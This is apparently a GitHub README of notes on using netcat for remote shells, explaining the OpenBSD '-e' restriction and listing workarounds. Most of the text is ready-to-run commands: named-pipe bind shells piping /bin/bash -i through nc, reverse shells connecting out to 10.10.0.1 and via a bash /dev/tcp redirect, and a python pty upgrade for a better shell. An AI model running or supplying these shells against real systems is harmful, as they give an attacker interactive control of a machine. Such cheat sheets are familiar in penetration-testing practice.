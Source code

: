 # netcat_shells
Notes for utilizing netcat general use and for remote shells

OpenBSD derivities of nc/netcat (netcat-openbsd) have the '-e' option disabled for security purposes. This feature is enabled in netcat-traditional; however, there are other ways to achieve this with the OpenBSD version.
Below are other ways to execute remotely and options for upgrading the shell.

# Bind Method 1
on Remote Server:
mkfifo /tmp/f;
nc -l 1234 < /tmp/f | /bin/bash -i > /tmp/f 2>&1

On client:
nc 10.10.0.1 1234

# Bind Method 2
On Remove Server:
mkfifo /tmp/f;
cat f | /bin/bash -i 2>&1 | nc -l 1234 > /tmp/f

On client:
nc 10.10.0.1 1234

# Additional Bind Methods
mkfifo /tmp/f ; nc -lk 1234 0< /tmp/f | /bin/bash 1> /tmp/f

#to show output on remote host<br>
mkfifo /tmp/f ; nc -l 1234 < /tmp/f | /bin/bash -i 2>&1 | tee /tmp/f

# Reverse Shell Methods
#similar to bind shell except remote target machine reaches out to server
On Client:
nc -l -p 1234

On Remote Server:
mkfifo /tmp/f; nc 10.10.0.1 1234 < /tmp/f | /bin/bash -i > /tmp/f 2>&1

or On Remote Server:
/bin/bash -i > /dev/tcp/<ip>/<port> 2>&1 0<&1

# Getting a better Shell
If executing bash without the '-i' flag, typical shell features will be lost. Below are several ways to gain a better shell.

Python Method:<br>
#Once are connected to the remote host issue the following<br>
python -c 'import pty; pty.spawn("/bin/bash")'
